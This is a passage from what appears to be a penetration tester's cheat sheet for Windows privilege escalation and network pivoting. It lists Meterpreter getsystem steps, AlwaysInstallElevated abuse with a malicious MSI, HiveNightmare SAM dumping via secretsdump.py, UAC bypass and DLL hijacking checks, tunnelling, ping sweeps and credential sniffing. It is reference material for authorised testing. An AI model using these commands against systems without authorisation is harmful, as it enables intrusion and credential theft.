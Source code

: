             *   [Sherlock](https://github.com/rasta-mouse/Sherlock)                                                → Old Kernels → `Find-AllVulns`
            *   [MS14-068](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/MS14-068/)                                              → Kerberos Local Escalation
            *   Meterpreter                                           → `use post/multi/recon/local_exploit_suggester` → `run`
            *   Process Migration
                *   Meterpreter Shell → `ps` → `svchost.exe` PID
                *   `migrate [PID]`       → `load priv` → `getsystem`
        *   Elevated Install
            *   `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
            *   `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
            *   `msiexec /quiet /qn /i [MALICIOUS.msi]`
        *   WSUS
            *   HTTP →    `reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer`
            *   Set to 1 → `reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer`
            *   [WSUSPicious](https://github.com/GoSecure/WSuspicious)
        *   HiveNightmare
            *   `icacls [SAM_FILE]` → Readable by `BUILTIN\Users`
            *   `HiveNightmare.exe` → GossiTheDog POC
            *   `secretsdump.py -sam SAM -system SYSTEM -security SECURITY local`
        *   UAC EoP
            *   GUI Access → [CVE-2019-1388](https://github.com/jas502n/CVE-2019-1388) / [Support App](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#insecure-gui-apps)
            *   [Exploitation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#from-low-priv-user-to-nt-authority-system-cve-2019-1388-uac-bypass)
        *   Drivers
            *   OffensiveCSharp → `DriverQuery.exe --no-msft`
            *   Exploit Research
        *   SCClient
            *   `C:\Windows\CCM\SCClient.exe`
            *   `Get-WmiObject -Namespace "root\ccm\clientSDK" -Class CCM_Application -Property * | % { if ($_.ApplicabilityState -eq "Applicable") { $_.Name } }`
        *   Environment Variables
            *   `set` → PATH / Drives / Credentials / Architecture
            *   DLL Hijacking Folders
                *   `for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users %username%" && echo. )`
    *   Network
        *   Local Services
            *   `netstat -ano`             → `ESTABILISHED/LISTEN` → `127.0.0.1` / `::1` / `[INTRANET_IP]`
            *   Associated Process  → `tasklist | findstr [SERVICE_PID]` → Check Privilege / Process String
            *   Configuration Files  → All Services + Permissions (MySQL → `my.cnf`)
            *   DB Access                   → Data Dump / Blank Password / [UDF Escalation](https://juggernaut-sec.com/mysql-user-defined-functions/)
            *   Local Forwarding
            *   Splunk Forwarder / Erlang Port (25672)
        *   [Dynamic Forwarding](https://notes.dollarboysushil.com/pivoting-and-tunneling/ligolo-ng)
            *   `ipconfig /all` / `route -n` →  Ligolo Tunnel
            *   Local Sweep
                *   Valid for `/24` → Adjust Accordingly
                *   `(for /L %a IN (1,1,254) DO ping /n 1 /w 1 [INTRANET_CIDR_BLOCK].%a) | find “Reply”`
        *   Traffic Sniffing
            *   `python net-creds.py -i [NIC]`
            *   TCPDump + PCAP Wireshark Analysis → All Unencrypted Protocols
    *   Processes
        *   `tasklist /v /fi "username eq [SYSTEM/USER]"`
        *   `icacls` → (F/M/W) File/Folder Permissions → [Overwrite Binary / DLL Hijack](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#running-processes)
        *   Process Strings                                                  → Credentials + Info Disclosure
        *   Electron / Chrome Debugger Hijacking
        *   Memory Dumping (Admin)
            *   Unencrypted Services